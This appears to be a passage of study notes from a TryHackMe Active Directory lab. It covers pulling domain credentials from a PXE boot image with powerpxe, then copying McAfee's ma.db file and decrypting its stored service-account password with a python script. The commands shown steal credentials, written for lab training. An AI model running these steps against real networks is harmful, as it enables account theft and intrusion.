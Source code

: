 WIM files are bootable in the Windows Imaging Format, now we can use TFTP again to download the PXE boot image with the location we have.

##### Recovering Credentials from a PXE Boot Image

Now we could inject a local administrator user, we can install the image to have a domain joined machine.

We will use powerpxe again to recover the credentials, we can do this manually by extracting the image and looking for the bootstrap.ini file:

```markup
PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```

## Configuration Files

Depending on the host breached, various configuration files might be of value to enumerate:

- Web application config files
- Service configuration files
- Registry keys
- Centrally deployed applications

Several enumeration scripts, such as [Seatbelt](https://github.com/GhostPack/Seatbelt), can be used to automate this process.
##### Configuration File Credentials

Centrally deployed applications usually need a method to authenticate to domain during the installation and execution phases, for example McAfee Enterprise Endpoint Security, that is used as endpoint detection and response tool by organizations.

McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db, which can be retrieved and read with local access to the host to recover the associated AD service account, we will again use SSH.

`cd C:\ProgramData\McAfee\Agent\DB` - the directory where the ma.db file is always stored.
`scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .` - You can use `scp` to copy the file to your machine.
`sqlitebrowser ma.db` - Read the file.

Select the Browse Data option and focus on the AGENT_REPOSITORIES table, we are interested in the second entry where the DOMAIN, AUTH_USER and AUTH_PASSWD field entries are located.

Since McAfee encrypts the AUTH_PASSWD field with a known key we can use this old python2 tool (there is a newer version) to decrypt the password:

![[mcafeesitelistpwddecryption.zip]]

`python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>` - Decrypt the password using the tool
